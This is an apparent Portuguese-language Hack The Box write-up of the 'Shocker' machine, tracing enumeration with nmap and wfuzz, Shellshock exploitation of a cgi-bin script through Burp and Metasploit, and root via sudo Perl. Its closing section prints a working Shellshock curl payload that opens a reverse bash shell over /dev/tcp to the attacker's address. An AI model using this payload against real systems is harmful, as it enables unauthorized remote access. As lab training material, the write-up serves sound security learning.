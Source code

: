 ```yaml
---
title: "Hack The Box - Shocker"
tags: [Linux,Easy,Shellshock,Metasploit Framework,BurpSuite,Wfuzz,Perl]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_inicial.png)

Link: <https://www.hackthebox.eu/home/machines/profile/108>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos 3 portas abertas no servidor

> Porta 2222 -> Servidor SSH, dificilmente a exploração vai ser por aqui

> Porta 80 -> Servidor Web


## Enumeração da porta 80

Vimos que é apenas uma página em branco

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_web.png)

### Rodamos o Wfuzz na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_wfuzz.png)

### Encontramos o diretório `/cgi-bin` e rodamos o Wfuzz novamente dentro dele

*/cgi-bin é uma pasta usada no servidor para deixar os scripts que interagem com servidor Web, talvez se encontramos algum script dentro dele .sh podemos fazer Shellshock, possivelmente sim pelo nome da máquina.*

#### Adicionamos a extensão .sh no final do FUZZ

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_wfuzz1.png)

### Baixamos o arquivo user.sh para verificar o que tem nele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_user.png)

## Agora vamos verificar se esse script é vulnerável a ShellShock, através do Nmap

### Verificamos estranhamente ele não conseguiu executar comandos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_1.png)

### Vamos dentro do script do Nmap que explora essa vulnerabilidade e vamos tirar o campo cmd, quero que só verifique que se é vulnerável ou não

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_2.png)

### Rodamos novamente sem o cmd e verificamos que é sim vulnerável, contudo não executou nosso comando ls, vamos jogar pra dentro do BurpSuite para verificar melhor como está funcionando essa requisição

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_3.png)

## Abrimos e configuramos o BurpSuite

### Setamos para ele funcionar como um Proxy para nosso servidor Shocker

> Proxy - Options - New

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp3.png)

### Rodo o nmap novamente agora redirecionando para nossa porta 8001 no localhost

> O nmap vai redirecionar para a porta 80 do Shocker

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp4.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp5.png)

### Envio a requisição para o Repeater para melhor trabalhar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp6.png)

#### Vamos descobrir agora por que não está me dando RCE

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp8.png)

Adaptamos o exploit e colocamos o caminho absoluto do binário, ai ele executa

O que está acontecendo de errado é o fato do script rodar como sendo o caminho relativo, por isso não da certo, mas se colocarmos o caminho absoluto do binário ele vai executar normalmente

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp9.png)

# Exploração

### Pegamos um shell da máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_burp10.png)

### Com o sudo -l verificamos que podemos executar qualquer comando do Perl como se root fosse

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_shelly.png)

# Escalação de Privilégio

### Dentro do `gtfobins` verificamos como escalar privilégio com Perl

> https://gtfobins.github.io/gtfobins/perl/#sudo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_gtfobins.png)

### Viramos root!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_r.png)

### Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_r1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_r3.png)

# Com o metasploit

#### Pesquisamos por exploits de shellshock

> search name:shellshock type:exploit platform:linux

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_msf.png)

### Configuramos ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_msf1.png)

### Ganhamos o shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_msf2.png)

# Exploraremos agora sem ser pelo Metasploit e de outro modo sem ser o apresentado acima

### Sabemos que a vulnerabilidade do shellshock pode ser explorada nessa máquina, sabendo disso, iremos fazer uma requisição curl para o user.sh

> curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.16.119/443 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-shocker/Shocker_sem.png)